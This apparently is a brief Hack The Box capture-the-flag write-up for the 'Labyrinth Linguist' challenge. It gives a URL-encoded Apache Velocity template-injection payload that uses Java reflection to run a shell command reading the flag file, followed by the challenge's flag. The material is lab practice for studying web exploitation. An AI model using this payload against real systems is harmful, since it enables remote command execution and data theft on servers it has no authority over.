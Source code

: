 # Labyrinth Linguist

## Desc

## Solution

```
text=%23set($x%3d'')%23%23
%23set($rt%3d$x.class.forName('java.lang.Runtime'))%23%23
%23set($chr%3d$x.class.forName('java.lang.Character'))%23%23
%23set($str%3d$x.class.forName('java.lang.String'))%23%23

%23set($ex%3d$rt.getRuntime().exec('cat ../flag.txt'))%23%23
$ex.waitFor()
%23set($out%3d$ex.getInputStream())%23%23
%23foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

## Flag
    HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!_9b6fc18d8d7f15b2c818a8f7db514e08}

